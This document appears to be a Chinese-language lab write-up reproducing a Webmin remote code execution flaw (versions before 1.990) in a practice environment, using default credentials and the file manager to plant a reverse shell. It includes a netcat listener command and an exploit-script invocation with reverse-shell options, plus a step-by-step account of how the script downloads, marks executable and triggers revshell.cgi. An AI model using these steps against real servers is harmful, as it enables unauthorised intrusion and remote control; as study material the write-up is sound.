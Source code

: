 ## webmin远程代码执行漏洞复现

### 漏洞解释
Webmin是一个功能强大且灵活的基于 Web 的服务器管理控制面板，适用于类Unix系统。Webmin允许用户配置操作系统内部，例如用户、磁盘配额、服务或配置文件，以及修改和控制开源应用程序，例如Apache HTTPServer、PHP或MySQL。

### 情景分析
首先进入靶场看见登陆界面，靶场描述中有账号密码

![](./进入webmin.png)

然后根据账号密码进入后台，根据观察后台的整体情况，可以发现漏洞较多，如
- 存在外部命令窗，且外部命令窗存在任意命令都可以执行
![](./外部命令窗.png)

- 存在文件管理器且文件管理器可以对任意文件进行读取
![](./文件读取.png)

- 允许任意文件上床且上传路径可以自定义，也可远程链接下载
![](./文件下载上传.png)

### 解析漏洞原理
故可以看出因为文件管理器模块影响，任何没有文件管理器模块访问权限的经过身份验证的低权限用户都可以与文件管理器功能交互，且呢个随意对对文件进行上传下载，可以尝试通过远程下载文件和修改文件权限来进行漏洞利用

### 版本
漏洞Webmin Webmin < Webmin Webmin1.990    //1.990版本之前均受影响
需要webmin的账号密码账户: root 密码: password
session_login.cgi存在
### 实验过程
#### 靶机 
启动webmin镜像，进入webmin的web页面
![](webmin地址.png)
#### 攻击机
攻击机监听端口9999，准备获取反弹shell
```bash
    nc -lvp 监听端口
```
![](./找到flg1.png)
攻击机执行POC脚本
```bash
    python3 exp.py -t http://目标IP:目标PORT -c root:password -LS vps_ip:vps_port -L vps_ip -P vps_port
 
    -t    指定目标
    -c    账号:密码
    -LS   指定开启http服务的ip:port
    -L    反弹shell的对象ip
    -P    反弹shell的对象port
```
![](./找到flg2.png)
攻击成功，反弹回shell
攻击机得到权限，找到flg
![](./找到flg.png)
在webmin中找到flg
![](./lstemp.png)


### 脚本详解
``` bash
    1.在当前目录创建revshell.cgi文件

    2.尝试登录

    3.利用python3python_server是创建了一个httpserver用于服务器下载在本地开启http服务

    4.目标服务器下载我们服务器上的revshell.cgi文件

    5.用webmin自带的赋权功能进行普通用户赋权,修改revshell.cgi文件的权限，其可以执行

    6.通过http访问revshell.cgi，自动执行后进行反弹shell操作达到RCE的效果

    7.最后kill掉进程

```
![](./代码1.png)
![](./代码2.png)


### 漏洞抓包分析
首先设定一个过滤，因为这是一个提权漏洞，通过漏洞发送POST请求方式去请求session_login.cgi,如下图所示
![](./抓包.png)

下面两张图是脚本去请求session_login.cgi
![](./抓包1.png)
![](./抓包2.png)
这个包中发现攻击机下载路径以及下载后目标机文件保存路径

![](./抓包4.png)

![](./抓包5.png)

数据包内容：对下载完成文件进行了赋予执行权
![](./抓包6.png)

### 遇见困难
![](服务器内部异常.png)